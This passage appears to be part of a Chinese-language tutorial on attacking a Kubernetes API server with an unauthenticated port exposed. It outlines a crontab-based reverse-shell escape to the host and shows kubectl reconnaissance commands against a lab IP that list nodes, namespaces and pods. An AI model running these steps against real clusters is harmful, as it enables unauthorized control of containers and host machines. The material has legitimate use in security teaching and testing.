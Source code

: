 利用方式按严重程度可分为以下两种攻击类型：

-   通过利用kubectl客户端调用Secure Port接口去控制已经创建好的容器
-   通过创建一个自定义的容器将系统根目录的文件挂在到/mnt目录，之后通过修改/mnt/etc/crontab来影响宿主机的crontab，通过反弹Shell拿到宿主机的权限

**容器管理**

Step 1：获取目标机器的信息

```plain
#格式说明
kubectl -s ip:port get nodes

#执行实例
kubectl -s 192.168.17.144:8080 get nodes
```

[![](assets/1699842580-f12a9f312a47980eda6fdf5358d91a66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025164911-5e4daf24-7313-1.png)

备注说明：如果出现"Error from server (NotFound): the server could not find the requested resource"报错，可能是因为Kubectl客户端和K8s的Server端版本不相同导致的需要进行降级操作，此时需要将版本降低到和目标主机版本一致即可

```plain
curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.8.7/bin/linux/amd64/kubectl
chmod 777 kubectl
mv /usr/bin/kubectl /usr/bin/kubectl.bak
mv kubectl /usr/bin/kubectl
```

Step 2：获取命名空间

```plain
kubectl -s 192.168.17.144:8080 get namespace
```

[![](assets/1699842580-efe0a52fd4ce5b599010baa1a9e67c20.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025164941-700479a0-7313-1.png)  
Step 3：获取某一命名空间下的Pod列表

```plain
kubectl -s 192.168.17.144:8080 get pod -n default
```
